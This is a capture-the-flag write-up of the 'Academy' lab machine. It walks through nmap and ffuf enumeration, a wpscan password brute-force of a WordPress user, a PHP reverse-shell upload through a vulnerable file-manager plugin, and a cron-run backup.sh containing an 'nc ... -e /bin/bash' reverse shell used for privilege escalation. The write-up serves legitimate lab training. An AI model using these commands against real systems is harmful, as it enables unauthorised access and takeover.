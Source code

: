```yaml
---
{"dg-publish":true,"permalink":"/write-ups/the-hackers-labs/academy/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241211222106.png|400](/img/user/attachments/Pasted%20image%2020241211222106.png)

---

> [!INFO] Info about Academy
>  Linux

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux
## Port 22 - SSH
tcp open  ssh     **OpenSSH 9.2**p1 Debian 2+deb12u2 (protocol 2.0)
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.59** ((Debian))
Add IP to */etc/hosts* (Optional)
```shell
sudo echo "192.168.122.4 academy.thl" | sudo tee -a /etc/hosts
```

![Pasted image 20241212104601.png](/img/user/attachments/Pasted%20image%2020241212104601.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
One important result *WordPress*
### Wordpress
Version 6.5.3
![Pasted image 20241212110945.png](/img/user/attachments/Pasted%20image%2020241212110945.png)
#### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/wordpress/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
Nothing important

---
# Vulnerability analysis
## Wordpress
#### Wpscan
```shell
wpscan --url 192.168.122.4/wordpress -e vp,u --api-token="554f34g5gfhdg" --plugins-detection aggressive
```

Usernames
- dylan

The version has some vulnerabilities
![Pasted image 20241212122111.png](/img/user/attachments/Pasted%20image%2020241212122111.png)

The plugin *file-manager* has some vulnerabilities
![Pasted image 20241212120332.png](/img/user/attachments/Pasted%20image%2020241212120332.png)


---
# Exploitation
## Brute force attack to wordpress
```shell
wpscan --url 192.168.122.4/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt
```
![Pasted image 20241212122444.png](/img/user/attachments/Pasted%20image%2020241212122444.png)

Now I can log in to the admin panel
![Pasted image 20241212123656.png](/img/user/attachments/Pasted%20image%2020241212123656.png)
## File upload
I use the vulnerability from the vulnerability analysis section named *Bit File Manager – 100% Free & Open Source File Manager and Code Editor for WordPress < 6.5.6 - Authenticated (Subscriber+) Arbitrary File Upload*
1. Go to the plugin section
2. Open the plugin on home
   ![Pasted image 20241212124333.png](/img/user/attachments/Pasted%20image%2020241212124333.png)
3. Click on home again
   ![Pasted image 20241212124436.png](/img/user/attachments/Pasted%20image%2020241212124436.png)
4. Navigate to a folder that you can aaccess it, in my case `http://192.168.122.4/wordpress/wp-content/uploads/` and click on upload
   ![Pasted image 20241212124905.png](/img/user/attachments/Pasted%20image%2020241212124905.png)
5. Now upload a reverse shell for example, I use */usr/share/webshells/php/php-reverse-shell.php* changing the data
   ![Pasted image 20241212125052.png](/img/user/attachments/Pasted%20image%2020241212125052.png)
6. Start the listener
```shell
rlwrap nc -lnvp 4747
```
7. Go to the path of file `192.168.122.4/wordpress/wp-content/uploads/php-reverse-shell.php`
8. We have a reverse shell
   ![Pasted image 20241212125253.png](/img/user/attachments/Pasted%20image%2020241212125253.png)

---
# Privilege escalation
Checking the files, I notice that I can write into *opt*
![Pasted image 20241212184041.png](/img/user/attachments/Pasted%20image%2020241212184041.png)
Thereis a file *cackup.py*, the content is:
![Pasted image 20241212184317.png](/img/user/attachments/Pasted%20image%2020241212184317.png)
There are credentials, I test them with no successful results.
I assume that another user is possibly executing the script, I look for on *crontabs* but unsuccessful.
I used [[pspy\|pspy]] to check some root processes without need root privileges. Transfer the binary.
```shell
pspy
```
![Pasted image 20241212184909.png](/img/user/attachments/Pasted%20image%2020241212184909.png)

A user is executing a binary named *backup.sh* instead *backup.py*
Create a *backup.sh* on the *opt* directory with the follow content to send us a revere shell.
```shell
#!/bin/bash
nc 192.168.122.192 4748 -e /bin/bash
```

Now set the listener
```shell
rlwrap nc -lnvp 4748
```

Wait if some user execute this script and it works. Looks that the script is executing very minute.
![Pasted image 20241212185335.png](/img/user/attachments/Pasted%20image%2020241212185335.png)


> [!check] User flag
> ![Pasted image 20241212185547.png](/img/user/attachments/Pasted%20image%2020241212185547.png)

> [!check] Root flag
> ![Pasted image 20241212185422.png](/img/user/attachments/Pasted%20image%2020241212185422.png)

---